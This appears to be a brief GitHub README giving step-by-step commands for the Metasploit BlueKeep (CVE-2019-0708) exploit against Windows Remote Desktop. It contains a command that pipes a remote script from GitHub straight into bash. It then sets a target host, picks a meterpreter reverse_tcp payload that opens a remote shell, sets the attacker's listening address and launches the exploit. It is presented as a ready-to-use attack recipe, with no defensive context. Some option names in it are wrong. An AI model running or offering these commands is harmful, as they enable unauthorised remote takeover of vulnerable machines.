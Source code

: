 [![Read more](https://github.com/nu11secur1ty/Kali-Linux/blob/master/BlueKeep/wall/BlueKeep_OG.jpg)](https://blog.rapid7.com/2019/09/06/initial-metasploit-exploit-module-for-bluekeep-cve-2019-0708/)


- Automation:
```bash
curl -s https://raw.githubusercontent.com/nu11secur1ty/Kali-Linux/master/BlueKeep/bk.sh | bash
```
- SET Target:
```bash
SET RHOSTS 0.0.0.0 # target
SET payload windows/64x/meterpreter/reverse_tcp # set the module
SET LOCALHOST 0.0.0.0 # Your IP for receavin
```
- Check for targets
```bash
show targets
```
- Set Target number
```bash
SET target x
```
- Exploit the target 
```bash 
exploit
```
